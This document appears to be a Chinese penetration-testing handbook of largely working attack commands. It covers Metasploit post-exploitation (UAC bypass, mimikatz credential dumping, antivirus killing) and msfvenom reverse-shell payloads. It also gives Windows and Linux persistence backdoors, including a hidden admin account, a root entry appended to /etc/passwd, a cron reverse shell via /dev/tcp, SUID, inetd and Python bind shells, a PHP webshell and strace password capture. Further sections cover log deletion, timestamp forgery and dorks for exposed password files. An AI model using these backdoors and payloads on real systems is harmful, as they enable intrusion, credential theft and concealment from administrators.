

# Speed-PenTest🕶
`渗透手册`
[TOC]

<p align="center">
    
</p>

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

**Todo**
- [ ] badusb
- [ ] Vegile
- [ ] ASWCrypter
- [ ] VENOM
- [ ] namp脚本

---

# 0瑞士军刀/安全工具/框架
## cobaltstrike
服务端
`./teamserver 你的IP 你的密码`
客户端
`java -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar`
或
`javaw -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar`

**爆破 cobaltstrike teamserver**
```bash
git clone https://github.com/ryanohoro/csbruter
cd csbruter
cat wordlist.txt | python3 csbruter.py xxx.xxx.xxx.xxx
```

**Reference**
- [cobalt strike 快速上手 [ 一 ] - FreeBuf专栏·攻防之路](https://www.freebuf.com/column/149236.html)
- [教你修改cobalt strike的50050端口 - 3HACK](https://www.3hack.com/note/96.html)
- [ryanohoro/csbruter: Cobalt Strike team server password brute force tool](https://github.com/ryanohoro/csbruter)

---

## metasploit
Q:Module database cache not built yet, using slow search
A:
```bash
service postgresql start
msfdb init
db_rebuild_cache
```

### meterpreter
**meterpreter快速上手**
```bash
shell   #获取目标主机的 cmd shell
getsystem #命令可以提权到本地系统权限
sysinfo #显示系统名,操作系统,架构和语言等。
```

- 获取会话
    **handler**
    ```bash
    use exploit/multi/handler
    set payload windows/x64/meterpreter_reverse_tcp
    set LHOST
    set LPORT
    exploit -j  #后台执行
    ```

    **cmdshell 升级为 meterpreter**
    如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要。
    `sessions -u "id"` 将该 cmdshell 升级成 meterpreter

- 提权
**绕过 UAC**
    通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限
    ```bash
    use exploit/windows/local/bypassuac #一系列都可用
    use exploit/windows/local/bypassuac_eventvwr
    sessions    #查看目前的session
    sessions -k #杀死所有session
    set session    #设为你需要exploit的session
    ```

    **利用系统漏洞提权**
    ```bash
    use exploit/windows/local/ms13_081_track_popup_menu #以ms13-081为例
    set session
    ```

- 进程迁移
    当meterpreter单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化。
    ```bash
    getpid  #查看当前会话的进程id
    ps  #查看目标运行的进程
    migrate pid #绑定进程
    ```

- 令牌假冒
    在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie。

    msf提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色。
    ```bash
    getuid  #查看当前用户
    use incognito   #进入该模块
    list_tokens -u  #查看存在的令牌
    impersonate_token 用户名  #令牌假冒
    #注意用户名的斜杠需要写两个。

    getuid  #查看是否切换成功
    ```

- 获取凭证
    ```bash
    run hashdump

    load mimikatz   #加载mimikatz模块
    wdigest
    kerberos
    ```

- 操作文件系统
    **基本操作**
    ```bash
    ls：列出当前路径下的所有文件和文件夹。
    pwd 或 getwd：查看当前路径
    search：搜索文件,使用search -h查看帮助。
    cat：查看文件内容,比如cat test.txt。
    edit：编辑或者创建文件。和Linux系统的vm命令类似,同样适用于目标系统是windows的情况。
    rm：删除文件。
    cd：切换路径。
    mkdir：创建文件夹。
    rmdir：删除文件夹。
    getlwd 或 lpwd：查看自己系统的当前路径。
    lcd：切换自己当前系统的目录。
    lls：显示自己当前系统的所有文件和文件夹。
    ```

    **上传和下载**
    ```bash
    upload <file> <destination> #上传文件到 Windows 主机
    #注意：使用 -r 参数可以递归上传上传目录和文件

    download <file> <path to save>  #从 windows 主机下载文件
    #注意：Windows 路径要使用双斜线
    #如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r命令
    ```

- 其它操作
    **关闭防病毒软件**
    `run killav`
    `run post/windows/manage/killav`

    **操作远程桌面**
    `run post/windows/manage/enable_rdp` 开启远程桌面
    `run post/windows/manage/enable_rdp username=test password=test` 添加远程桌面的用户(同时也会将该用户添加到管理员组)

    **截屏**
    `screenshot`

    **键盘记录**
    ```bash
    keyscan_start：开启键盘记录功能
    keyscan_dump：显示捕捉到的键盘记录信息
    keyscan_stop：停止键盘记录功能
    ```

    **执行程序**
    ```bash
    execute -f <path> [options] 在目标主机上执行 exe 文件
    -H：创建一个隐藏进程
    -a：传递给命令的参数
    -i：跟进程进行交互
    -m：从内存中执行
    -t：使用当前伪造的线程令牌运行进程
    -s：在给定会话中执行进程
    ```

- 端口转发和内网代理
    **portfwd**
    portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令的参数。
    ```bash
    portfwd add -l 2222 -r 1.1.1.1 -p 3389 #将1.1.1.3的3389端口转发到本地的2222端口。
    -l：本地监听端口
    -r：内网目标的ip
    -p：内网目标的端口
    ```

    **pivot**
    pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测。
    ```bash
    route add 内网ip 子网掩码 session的id #添加一个路由
    route print

    如果其它程序需要访问这个内网环境,就可以建立socks代理
    msf提供了3个模块用来做socks代理。
    auxiliary/server/socks4a
    auxiliary/server/socks5
    auxiliary/server/socks_unc

    use auxiliary/server/socks4a
    SRVHOST：监听的ip地址,默认为0.0.0.0,一般不需要更改。
    SRVPORT：监听的端口,默认为1080。
    直接运行run命令,就可以成功创建一个socks4代理隧道,在linux上可以配置proxychains使用,在windows可以配置Proxifier进行使用。
    ```

- 后门
    Meterpreter的shell运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用exploit获取权限,所以需要持久的后门对目标进行控制
    **metsvc**
    ```bash
    run metsvc 
    #命令运行成功后会在 C:WindowsTEMP 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)
    #同时会新建一个服务,显示名称为Meterpreter,服务名称为metsvc,启动类型为"自动",绑定在31337端口。

    use exploit/multi/handler
    set payload windows/metsvc_bind_tcp
    set rhost xxx.xxx.xxx.xxx
    set lport 31337
    ```

    **persistence**
    ```bash
    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A：安装后门后,自动启动exploit/multi/handler模块连接后门
    -L：自启动脚本的路径,默认为%TEMP%
    -P：需要使用的payload,默认为windows/meterpreter/reverse_tcp
    -S：作为一个服务在系统启动时运行（需要SYSTEM权限）
    -T：要使用的备用可执行模板
    -U：用户登陆时运行
    -X：系统启动时运行
    -i：后门每隔多少秒尝试连接服务端
    -p：服务端监听的端口
    -r：服务端ip
    ```

- Reference
    - [linux - Metasploit: Module database cache not built yet, using slow search - Server Fault](https://serverfault.com/questions/761672/metasploit-module-database-cache-not-built-yet-using-slow-search)
    - [Metasploit入门用法（主动攻击） - CSDN博客](https://blog.csdn.net/wsh19930305/article/details/72855660)
    - [meterpreter必知必会的15个命令](https://www.4hou.com/tools/14185.html)
    - [萌新科普 手把手教你如何用MSF进行后渗透测试](https://www.anquanke.com/post/id/164525)

---

## 抓包改包
### [Burp Suite](https://portswigger.net/)


**Intruder**
爆破模块
- **Target**

- **Positions**

- **Payloads**
    Payload Processing 配置加密规则,优先级由上往下,自动给字典编码
    Payload Encoding 配置字典进行 URL 编码

- **Options**


**Extender**
下载、管理burp的插件

可以自行下载 https://portswigger.net/bappstore
大部分插件运行需要[Jython](https://www.jython.org/downloads.html)、[JRuby](https://www.jruby.org/download)环境


**书**
- [Burp Suite 实战指南](https://t0data.gitbooks.io/burpsuite/content/)

---

## exp/poc/tool合集
- [Kali Linux Tools Listing | Penetration Testing Tools](https://tools.kali.org/tools-listing)
- [信息安全工具汇总 - WLGF,网络攻防小组](http://www.nsoad.com/Security-tools/20180730/tools-1217.html)
- [rootphantomer/exp: 收集各种各样的exp](https://github.com/rootphantomer/exp)
- [Jack-Liang/kalitools: Kali Linux工具清单](https://github.com/Jack-Liang/kalitools)
- [k8gege/K8tools: K8工具合集](https://github.com/k8gege/K8tools)
- [WangYihang/Exploit-Framework](https://github.com/WangYihang/Exploit-Framework)
- [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [csirt/CVEsPoCs](https://github.com/Spacial/csirt/blob/master/CVEsPoCs.md)
- [wudimahua/Firewall](https://github.com/wudimahua/Firewall)
- [nanshihui/PocCollect](https://github.com/nanshihui/PocCollect)
- [hanc00l/some_pocsuite](https://github.com/hanc00l/some_pocsuite)
- [foospidy/web-cve-tests](https://github.com/foospidy/web-cve-tests)
- [cckuailong/PocCollect](https://github.com/cckuailong/PocCollect)
- [ptresearch/AttackDetection](https://github.com/ptresearch/AttackDetection)

---

# 1Crypto
## 各种爆破
## 字典工具
### 字典生成
- [LandGrey/pydictor](https://github.com/LandGrey/pydictor)
- [crunch](https://sourceforge.net/projects/crunch-wordlist/)
- [RicterZ/genpAss](https://github.com/RicterZ/genpAss)

---

### 各类字典
**默认设备/服务口令**
- 设备
    很多厂商设备可以在这个网站找到 https://default-password.info/ 
    ```bash
    群晖
    admin  123456

    锐捷
    ruijie  ruijie

    锐捷ap
    admin/ruijie  apdebug

    FUJI XEROX打印机
    11111 x-admin
    ```

- 服务
    ```bash
    zabbix
    admin zabbix
    ```

**字典下载**
- [weakpass](https://weakpass.com/)
- [danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
- https://downloads.skullsecurity.org/passwords/
- [rootphantomer/Blasting_dictionary](https://github.com/rootphantomer/Blasting_dictionary)
- [H4lo/dictionary](https://github.com/H4lo/dictionary)

---

# 2Misc
## 权限维持/反侦察
### 通用
**msfvenom**
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -f exe > ./vu.exe`

**Veil**
```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/setup/
sudo ./setup.sh –c
sudo ./Veil.py
```

**HERCULES**
```bash
确保电脑里有Go
git clone https://github.com/noosec/HERCULES.git
cd HERCULES
wget -c https://github.com/fatih/color
go get github.com/fatih/color
go run Setup.go
cp -rf /root/go/src/github.com /usr/lib/go-1.7/src/github.com
cd SOURCE/
go run HERCULES.go
```

**ASWCrypter**
**VENOM**
**Metasploit**
```bash
use evasion/windows/windows_defender_exe
set payload windows/x64/meterpreter/reverse_tcp
set lhost 
set lport
run
```

---

### web
#### 后门
鸽

---

### win
#### 后门
```bash
net user PHPNET$ 1234abcd~ /add #添加用户
#Windows 的帐号名称后带着"$"符号时,不会在 net user 命令中显示出帐号信息
net localgroup administrators PHPNET$ /add #将用户添加到管理组
net user PHPNET$ /del #删除用户

query user #查看会话

logoff ID号 #踢掉
```

#### 痕迹清理
**删除日志文件**
```bash
net stop eventlog   #停止服务
del c:\Windows\System32\Winevt\Logs\* /Q
```

### linux
#### 后门
**添加root权限后门用户**
我们的目标就是在这个文件中追加一条，一个带有密文且id为0的账号。
密码加密使用下面的命令`perl -e 'print crypt("password", "AA"). "\n"'`
所以我们最终想要在passwd文件中的条目是这个样子的`backdoor:AA6tQYSfGxd/A/A:0:0:me:/root:/bin/bash`
执行写入`echo "backdoor:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash">>/etc/passwd`

**Crond开机自启后门**
先创建 /etc/xxxx 脚本文件（名字自己改），利用该脚本进行反弹。以下脚本代表全自动反弹到 8.8.8.8 的 53 端口。
```vim
vim /etc/xxxx
    #!/bin/bash
    if netstat -ano|grep -v grep | grep "8.8.8.8">/dev/null
    then
    echo "OK">/dev/null
    else
    /sbin/iptables --policy INPUT ACCEPT
    /sbin/iptables --policy OUTPUT ACCEPT
    bash -i >& /dev/tcp/8.8.8.8/53 0>&1
    fi

chmod +sx /etc/xxxx
```
```vim
vim /etc/crontab
    */1 * * * * root /etc/xxxx

service cron reload #不同发行版重启方式不一样
service cron start    
```

然后在 8.8.8.8 的服务器上使用 NC 接收 Shell 即可。
`nc -vv -lp 53`

**SUID shell**
首先, 先切换成为root用户，并执行以下的命令:
```bash
dawg:~# cp /bin/bash /.woot
dawg:~# chmod 4755 /.woot
dawg:~# ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 /.woot
```
当然, 你也可以起其他更具备隐藏性的名字,我想猥琐并机智的你，肯定能想出很多好的名字的。
文件前面的那一点也不是必要的，只是为了隐藏文件( 在文件名的最前面加上“.”，就可以在任意文件目录下进行隐藏) .
```bash
#现在，做为一个普通用户，我们来启用这个后门:
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw)
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw).woot-2.05b$
#为什么不行呢? 因为 bash2 针对 suid有一些护卫的措施. 但这也不是不可破的:
```
```bash
/.woot -p
id
    uid=1000(fw) gid=1000(fw) euid=0(root) groups=1000(fw)
#使用-p参数来获取一个root shell. 这个euid的意思是 effective user id
#这里要特别注意的是，作为一个普通用户执行这个SUID shell时，一定要使用全路径。
```
如何查找那些具有SUID 的文件:
`dawg:~# find / -perm +4000 -ls`
这时就会返回具有SUID位的文件啦。

**远程后门**
```vim
vim /etc/inetd.conf
    #discard stream tcp nowait root internal
    #discard dgram udp wait root internal
    daytime stream tcp nowait root /bin/bash bash -i

inetd
然后就可以用nc来爆菊
```
可以修改/etc/services文件，加入以下的东西
```vim
vim /etc/services
    woot 6666/tcp #evil backdoor service
vim /etc/inetd.conf
    woot stream tcp nowait root /bin/bash bash -i
```

**PAM后门**
主要思路:pam_unix_auth.c打补丁安装到正常的PAM模块中。
1、获取目标系统所使用的PAM版本：
`rpm -qa |grep pam`
2、编译安装PAM
3、将本地pam_unix_auth.c文件通过打补丁方式，编译生成。
4、编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，后门密码为root123,并会在/tmp/pslog记录root登录密码。

**vim后门**
此方法适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统,至于恶意脚本dir.py的内容可以是任何功能的后门。如python版本的正向后门监听11端口。

检测有无扩展
```bash
vim --version | grep python
```

enter the mal script directory 、execute the script and then remove the script
`cd /usr/lib/python2.7/site-packages`
```python
vim dir.py
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```
`$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py`

read more [[DARK] Weapons of Text Destruction](https://github.com/jaredestroud/WOTD/blob/master/%5BDARK%5D%20Weapons%20of%20%20Text%20Destruction.pdf)

**终端解析\r导致的问题**
```bash
echo -e "<?=\`\$_POST[good]\`?>\r<?='PHP Test Page >||<                  ';?>" >/var/www/html/test.php
```

**strace记录ssh登录密码**
注意bash_profile是在登录的shell执行的，bashrc是在非登录的shell执行,即如果你只是想每次在登录的时候让它去执行，这个时候你可以把你的命令写在.bash_profile,如果你想每次打开一个新的终端的时候都去执行，那么应该把命令写在.bashrc中。
```bash
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh'
#也可记录 su密码 
alias su='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 su'

grep "read(3" /tmp/sshpwd-名字自己补全  | tail -n 11
```

**预加载型动态链接库后门 ld.so.preload**
在linux下执行某个可执行文件之前，系统会预先加载用户定义的动态链接库的一种技术，这个技术可以重写系统的库函数，导致发生Hijack
strace 命令id的时候可以发现有预先去读取/etc/ld.so.preload文件(也可使用设置LD_PRELAOD环境变量方式)，如果我们将事先写好的恶意so文件位置写入ld.so.preload文件，这个时候就会达到“劫持”的效果。
比较好用的工具有Vegile和cub3等
[cub3](https://github.com/mempodippy/cub3),这个工具使用了LD_PRELOAD和系统的扩展属性去隐藏文件。
其中还有一种是通过修改动态链接器来加载恶意动态链接库的后门，通过替换或者修改动态链接器中的默认预加载配置文件/etc/ld.so.preload路径的rootkit，此方法更加隐蔽，这个方法的较成熟的利用工具是Vlany，github地址https://github.com/mempodippy/vlany

**Vegile**
This tool will set up your backdoor/rootkits when backdoor is already setup it will be hidden your specific process,unlimited your session in metasploit and transparent. Even when it is killed, it will re-run again. There will always be a procces which will run another process, so we can assume that this procces is unstopable like a Ghost in The Shell
```bash
git clone https://github.com/Screetsec/Vegile.git
cd Vegile
chmod +x Vegile
鸽
```

**进程注入**
使用ptrace向进程中注入恶意so文件工具[linux-inject](https://github.com/gaffe23/linux-inject/)

**内核级rootkit**
如mafix、[Diamorphine](https://github.com/m0nad/Diamorphine)

**Reference**
- [linux常见backdoor及排查技术](https://xz.aliyun.com/t/4090)
- [Linux后门整理合集](https://www.secpulse.com/archives/59674.html)

#### 隐藏进程
**藏文件和文件夹**
1. 比如创建一个名字开头带 . 的 Webshell 或者文件夹，默认情况下是不会显示出来的，浏览器访问的时候加点访问就行。（查看方法：ls -a）
`touch .webshell.php    创建名字为 .webshell.php 的文件`
`mkdir .backdoor/       创建名字为 .backdoor 的文件夹`

2. 除非在管理员喝多了或者脑子转不过来的情况下，是绝对不会发现的！至少我用了这么久是没几个发现的。如果是文件的话浏览器访问直接输 ... 就行，目录同理。
`touch ...       创建名字为 ... 的文件`
`mkdir ...       创建名字为 ... 的文件夹`

**Linux/Unix 修改文件时间戳**
直接将时间戳修改成某年某月某日。如下 2014 年 01 月 02 日。
`touch -t 1401021042.30 webshell.php`

---

## 事件响应
### 操作系统取证
**手机**
鸽

**win**
- 抓key
    [AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne) - 抓密码神器

### 内存取证
鸽

### 文件取证
**exif**
- [ExifTool](https://www.sno.phy.queensu.ca/~phil/exiftool/)

**浏览器取证**
- [obsidianforensics/hindsight](https://github.com/obsidianforensics/hindsight) - 历史访问记录取证工具(真是不给人留条活路)

### 应急处置
- [meirwah/awesome-incident-response](https://github.com/meirwah/awesome-incident-response)
- [NextronSystems/APTSimulator](https://github.com/NextronSystems/APTSimulator) - 伪装成APT受害者？(还有这种操作)

---

## 信息收集
### 搜索引擎 Hacking
**github**
例子
```bash
create user  identified by
create user zabbix@'%' identified by 
```

**google**
例子
```bash
inurl:tw
inurl:jp

inurl:editor/db/ 
inurl:eWebEditor/db/ 
inurl:bbs/data/ 
inurl:databackup/ 
inurl:blog/data/ 
inurl:\boke\data 
inurl:bbs/database/ 
inurl:conn.asp 
inc/conn.asp
Server.mapPath(".mdb")
allinurl:bbs data
filetype:mdb inurl:database
filetype:inc conn
inurl:data filetype:mdb
intitle:"index of" data

intitle:"index of" etc
intitle:"Index of" .sh_history
intitle:"Index of" .bash_history
intitle:"index of" passwd
intitle:"index of" people.lst
intitle:"index of" pwd.db
intitle:"index of" etc/shadow
intitle:"index of" spwd
intitle:"index of" master.passwd
intitle:"index of" htpasswd
inurl:service.pwd

site:218.87.21.*
inurl:老虎机 site:*.gov
```

**[Shodan](https://www.shodan.io)**
语法
```bash
hostname：搜索指定的主机或域名,例如 hostname:"google"
port：搜索指定的端口或服务,例如 port:"21"
country：搜索指定的国家,例如 country:"CN"
city：搜索指定的城市,例如 city:"Hefei"
org：搜索指定的组织或公司,例如 org:"google"
isp：搜索指定的ISP供应商,例如 isp:"China Telecom"
product：搜索指定的操作系统/软件/平台,例如 product:"Apache httpd"
version：搜索指定的软件版本,例如 version:"1.6.2"
geo：搜索指定的地理位置,参数为经纬度,例如 geo:"31.8639, 117.2808"
before/after：搜索指定收录时间前后的数据,格式为dd-mm-yy,例如 before:"11-11-15"
net：搜索指定的IP地址或子网,例如 net:"210.45.240.0/24"
```

例子
```bash
#友情提醒,不要瞎搞
misc
Server: uc-httpd 1.0.0 200 OK Country:"JP"
h3c net:"61.191.146.0/24"
country:US vuln:CVE-2014-0160   
port:135,139,445 -hash:0   #过滤一些主文本标题为空的搜索结果
Hikvision-Webs      #海康威视

database
all:"mongodb server information" all:"metrics"  #开放Mongodb数据库
port:27017 -all:"partially" all:"fs.files"      #有点存货的Mongodb数据库
port:"9200" all:"elastic indices"   #开放ElasticSearch数据库

ftp
230 'anonymous@' login ok      #开放匿名ftp

vnc
port:5900 screenshot.label:loggedin  #无认证vnc
```

外部工具
```bash
Shodan cli
https://cli.shodan.io/

浏览器插件
https://chrome.google.com/webstore/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap
https://addons.mozilla.org/en-US/firefox/addon/shodan_io/

Metasploit
use auxiliary/gather/shodan_search
set SHODAN_APIKEY ********************
set QUERY ****

use auxiliary/gather/shodan_honeyscore  #蜜罐检测
set SHODAN_APIKEY ********************
set TARGET your_target

Recon-ng
keys add shodan_api ********************
use recon/domains-hosts/shodan_hostname
show options
set SOURCE google
set LIMIT 1
```

**[censys](https://www.censys.io)**
例子
```bash
23.0.0.0/8 or 8.8.8.0/24　　可以使用and or not
80.http.get.status_code: 200　　指定状态
80.http.get.status_code:[200 TO 300]　　200-300之间的状态码
location.country_code: DE　　国家
protocols: ("23/telnet" or "21/ftp")　　协议
tags: scada　　标签
80.http.get.headers.server：nginx　　服务器类型版本
autonomous_system.description: University　　系统描述
```

**[钟馗之眼](https://www.zoomeye.org/)**
语法
```bash
app:nginx　　组件名
ver:1.0　　版本
os:windows　　操作系统
country:"China"　　国家
city:"hangzhou"　　城市
port:80　　端口
hostname:google　　主机名
site:google.com　　网站域名
desc:nmask　　描述
keywords:passwd　　关键词
service:ftp　　服务类型
ip:8.8.8.8　　ip地址
cidr:8.8.8.8/24　　ip地址段
```

例子
```bash
city:tokyo + app:weblogic   #weblogic反序列化来一波？
```

**[FoFa](https://fofa.so)**
语法
```bash
title="abc" 从标题中搜索abc。例：标题中有北京的网站。
header="abc" 从http头中搜索abc。例：jboss服务器。
body="abc" 从html正文中搜索abc。例：正文包含Hacked by。
domain="qq.com" 搜索根域名带有qq.com的网站。例： 根域名是qq.com的网站。
host=".gov.cn" 从url中搜索.gov.cn,注意搜索要用host作为名称。
port="443" 查找对应443端口的资产。例： 查找对应443端口的资产。
ip="1.1.1.1" 从ip中搜索包含1.1.1.1的网站,注意搜索要用ip作为名称。
protocol="https" 搜索制定协议类型(在开启端口扫描的情况下有效)。例： 查询https协议资产。
city="Beijing" 搜索指定城市的资产。例： 搜索指定城市的资产。
region="Zhejiang" 搜索指定行政区的资产。例： 搜索指定行政区的资产。
country="CN" 搜索指定国家(编码)的资产。例： 搜索指定国家(编码)的资产。
cert="google.com" 搜索证书(https或者imaps等)中带有google.com的资产。
```

例子
```bash
title="powered by" && title!=discuz
title!="powered by" && body=discuz
(body="content=\"WordPress" || (header="X-Pingback" && header="/xmlrpc.php" && body="/wp-includes/") ) && host="gov.cn"
```

**[Dnsdb](https://www.dnsdb.io/)**
语法
```bash
DnsDB查询语法结构为条件1 条件2 条件3 …., 每个条件以空格间隔, DnsDB 会把满足所有查询条件的结果返回给用户.
```

域名查询条件
查询语法为`domain:.`
域名查询是指查询顶级私有域名所有的DNS记录,
例如查询google.com 的所有DNS记录: `domain:google.com.`
域名查询可以省略domain:.

主机查询条件
查询语法:`host:`
例如查询主机地址为mp3.example.com的DNS记录:`host:map3.example.com`
主机查询条件与域名查询查询条件的区别在于, 主机查询匹配的是DNS记录的Host值

按DNS记录类型查询
查询语法: `type:.`
例如只查询A记录: `type:a`
使用条件:必须存在domain:或者host:条件,才可以使用type:查询语法

按IP限制
查询语法: `ip:`
查询指定IP: `ip:8.8.8.8` 该查询与直接输入8.8.8.8进行查询等效
查询指定IP范围: `ip:8.8.8.8-8.8.255.255`
CIDR: `ip:8.8.0.0/24`
IP最大范围限制65536个

例子
查询google.com的所有A记录: `google.com type:a`

**Reference**
- [【渗透神器系列】搜索引擎](https://thief.one/2017/05/19/1/)
- [Shodan新手入坑指南](https://www.freebuf.com/sectool/121339.html)
- [shodan-manual](https://b404.gitbooks.io/shodan-manual/)
- [How to Discover MongoDB and Elasticsearch Open Databases](https://habr.com/en/post/443132/)

---

### 网络
**TTL来判断目的主机的操作系统类型**
下面是默认操作系统的TTL：
```bash
1、WINDOWS NT/2000   TTL：128
2、WINDOWS 95/98     TTL：32
3、UNIX              TTL：255
4、LINUX             TTL：64
5、WIN7              TTL：64
```

**修改本机电脑上面的默认TTL值**
通过修改本机上的TTL值可以混淆攻击者的判断（当然,很少有用户会这么做）。TTL 值在注册表的位置是：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters `其中有个 DefaultTTL 的 DWORD 值,其数据就是默认的 TTL 值了,我们可以修改 DefaultTTL 里面的 TTL 默认值,但不能大于十进制的 255。

#### IP扫
>netdiscover -r 1.1.1.0/24

---

### 网站
#### DNS枚举
**工具**
- [lijiejie/subDomainsBrute](https://github.com/lijiejie/subDomainsBrute)
- [bit4woo/teemo](https://github.com/bit4woo/Teemo)
- [ring04h/wydomain](https://github.com/ring04h/wydomain)
- [bitquark/dnspop](https://github.com/bitquark/dnspop)
- [fwaeytens/dnsenum](https://github.com/fwaeytens/dnsenum)
- [mschwager/fierce](https://github.com/mschwager/fierce)

#### 目录枚举
**字典**
- [DictionaryHouse/Dirpath_List](https://github.com/DictionaryHouse/Dirpath_List)

**工具**
- [Xyntax/DirBrute](https://github.com/Xyntax/DirBrute)
- [Nekmo/dirhunt](https://github.com/Nekmo/dirhunt)
- [maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)

**文章**
- [熟练使用各类敏感目录文件扫描工具](https://klionsec.github.io/2014/12/16/dirscan-tools/)
- [DIRB | Penetration Testing Tools](https://tools.kali.org/web-applications/dirb)

#### 指纹
**工具**

- [michenriksen/aquatone](https://github.com/michenriksen/aquatone)
- [urbanadventurer/WhatWeb](https://github.com/urbanadventurer/WhatWeb)
- [tanjiti/FingerPrint](https://github.com/tanjiti/FingerPrint)

**文章**
- [WAF指纹探测及识别技术](https://www.freebuf.com/articles/web/21744.html)
- [阻碍获取真实网络指纹](http://b404.xyz/2018/01/27/hidden-the-network/)

#### CDN/查源IP
**Nslookup法**
`nslookup + 域名`

**多地ping域名法**
利用在线网站服务多地 ping 测试

**"常识"判断法**
在反查网站 ip 时,如果此网站有 1000 多个不同域名,那么这个 ip 多半不是真实 ip。
如果一个 asp 或者 asp.net 网站返回的头字段的 server 不是 IIS、而是 Nginx,那么多半是用了 nginx 反向代理,而不是真实 ip。
如果 ip 定位是在常见 cdn 服务商的服务器上,那么是真实 ip 的可能性就微乎其微了。

**子域名查找法**
利用一些在线查询的网站
https://x.threatbook.cn/
https://dnsdb.io/zh-cn/ 只需输入 baidu.com type:A 就能收集百度的子域名和 ip
Google 搜索 Google site:baidu.com -www 就能查看除 www 外的子域名

**使用子域名扫描器**
例如子域名挖掘机和 subdomainbrute(https://github.com/lijiejie/subDomainsBrute)

总结：收集子域名后尝试以解析 ip 不在 CDN 上的 ip 解析主站,真实 ip 成功被获取到。

---

### 主机
#### 端口扫
**端口信息**
- [Service Name and Transport Protocol Port Number Registry](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml)
- 端口列表文件[md](./文件/端口列表.md)、[xlsx](./文件/端口列表.xlsx)
- 常见端口渗透[png](./文件/常见端口渗透.png)

**[nmap](https://nmap.org/download.html)**
- **用法**
    `nmap -T5 -A -v 1.1.1.1`

- **脚本**


- **格式模板**
    [honze-net/nmap-bootstrap-xsl](https://github.com/honze-net/nmap-bootstrap-xsl)

- **文章**
- [【渗透神器系列】nmap](https://thief.one/2017/05/02/1/)
